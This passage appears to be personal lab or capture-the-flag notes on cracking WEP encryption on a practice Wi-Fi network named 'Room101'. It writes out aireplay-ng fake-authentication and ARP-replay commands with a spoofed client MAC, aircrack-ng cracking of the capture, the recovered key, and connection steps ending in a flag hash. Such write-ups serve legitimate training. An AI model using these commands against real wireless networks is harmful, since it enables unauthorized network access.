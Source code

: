 I want over 9000 Beacons to improve success rates
![[Pasted image 20230909052851.png]]

Perfect I got the ARP request
![[Pasted image 20230909053047.png]]

For good measure I'll redo with the MAC of the already associated client
MAC: 02:00:00:00:03:00

```
sudo aireplay-ng -1 0 -e Room101 -a 02:13:37:BE:EF:03 -h 02:00:00:00:03:00 wlan0mon
```

```
sudo aireplay-ng -3 -b 02:13:37:BE:EF:03 -h 02:00:00:00:03:00 wlan0mon
```

Looking for more ways to increase the IV's. Am cracking simultaneously to continue to check the IV's and for some reason I only have under 250

...Something happened and there are tons of ARP requests
![[Pasted image 20230909053958.png]]
## Cracking
I can now start cracking the .cap file.

```
sudo aircrack-ng Room101-01.cap
```
![[Pasted image 20230909054032.png]]

Key: **2E:2C:F0:E3:FF**

## Connection

Stop monitor mode

```
sudo iwconfig wlan0 essid Room101 key 2E:2C:F0:E3:FF
```

```
sudo dhclient wlan0
```

![[Pasted image 20230909054157.png]]

Check connection
```
iw wlan0 link
```

![[Pasted image 20230909054219.png]]

## Flag
Go for the flag
![[Pasted image 20230909054253.png]]

Hash: **fe9737f77454306264959e73f2e556a2**

# Summary
All hashes obtained
![[Pasted image 20230909231451.png]]
![[Pasted image 20230909054402.png]]